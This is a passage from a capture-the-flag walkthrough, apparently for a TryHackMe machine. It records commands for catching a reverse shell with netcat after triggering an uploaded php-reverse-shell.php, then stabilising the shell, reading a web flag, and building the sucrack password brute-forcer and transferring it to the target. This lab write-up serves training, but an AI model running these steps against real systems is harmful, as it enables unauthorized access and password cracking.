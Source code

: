 phpmyadmin1 > wp_options > siteurl

Adding it to /etc/hosts

```
$IP *********.adana.thm
```

## Getting reverse shell

Start a netcat listener 

```
rlwrap nc -lvnp 4444
```

#### Triggering the shell

Visit the url http://*********.adana.thm/php-reverse-shell.php

#### Stabilizing the shell

```
python -c 'import pty;pty.spawn("/bin/bash")'
```
## Task 2a

Web flag

```
cd hmtl
www-data@ubuntu:/var/www/html$ cat wwe3bbfla4g.txt
```
## Task 2b 

#### Download sucrack to host machine 

```
git clone https://github.com/hemp3l/sucrack.git
```

#### Create a tar file

```
tar -zcvf sucrack.tar.gz ./sucrack 
```

No send using python http server and download on the target machine

#### Installing sucrack

```
chmod -R 777 sucrack.tar.gz
tar -zxvf sucrack.tar.gz
cd sucrack
./configure
make
```
